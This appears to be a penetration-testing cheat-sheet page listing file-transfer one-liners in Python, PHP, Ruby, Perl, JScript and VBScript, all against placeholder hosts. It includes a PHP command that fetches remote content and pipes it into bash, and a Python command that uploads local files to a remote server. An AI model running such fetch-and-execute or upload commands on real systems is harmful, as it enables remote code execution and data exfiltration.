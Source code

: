 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Transfer using Programming Languages

The use of programming languages provides flexibility and automation for moving files across systems. Below are some common methods using different programming languages:

* &#x20;Download using _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -c 'import urllib.request;urllib.request.urlretrieve("https://$URL/$file", "$outFile")'
```
{% endcode %}

***

* &#x20;Upload using _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m uploadserver #Start server
python3 -c 'import requests;requests.post("http://$IP/$uploadFolder",files={"files":open("$pathToFile","rb")})'
```
{% endcode %}

***

* Download using _PHP_

{% code overflow="wrap" lineNumbers="true" %}
```bash
php -r '$file = file_get_contents("https://<URL>/<file>"); file_put_contents("<file>",$file);'

#Alternative
php -r 'const BUFFER = 1024; $fremote = fopen("https://<URL>/<file>", "rb"); $flocal = fopen("<file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

#Alternative 2
php -r '$lines = @file("https://<URL>/<file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
{% endcode %}

{% hint style="warning" %}
Here the usual $ symbols used to sign the things we have to change, are replaced by <> due to the use of this symbol as a reserved operator on PHP
{% endhint %}

***

* &#x20; Download using _Ruby_

{% code overflow="wrap" lineNumbers="true" %}
```bash
ruby -e 'require "net/http"; File.write("$outFile", Net::HTTP.get(URI.parse("https://$URL/$file")))'
```
{% endcode %}

***

* &#x20; Download using _Perl_

{% code overflow="wrap" lineNumbers="true" %}
```bash
perl -e 'use LWP::Simple; getstore("https://$URL/$file", "$outFile");'
```
{% endcode %}

***

* &#x20; Download using _JS_ on Windows creating a script

{% code title="Download.js" overflow="wrap" lineNumbers="true" %}
```bash
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
cscript.exe /nologo Download.js $URL $outFile #Execute script to donwload
```
{% endcode %}

***

* &#x20; Download using _Visual Basic Script_ on Windows creating a script

{% code title="Download.vbs" overflow="wrap" lineNumbers="true" %}
```bash
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
cscript.exe /nologo Download.vbs $URL $outFile #Execute script to donwload
```
{% endcode %}

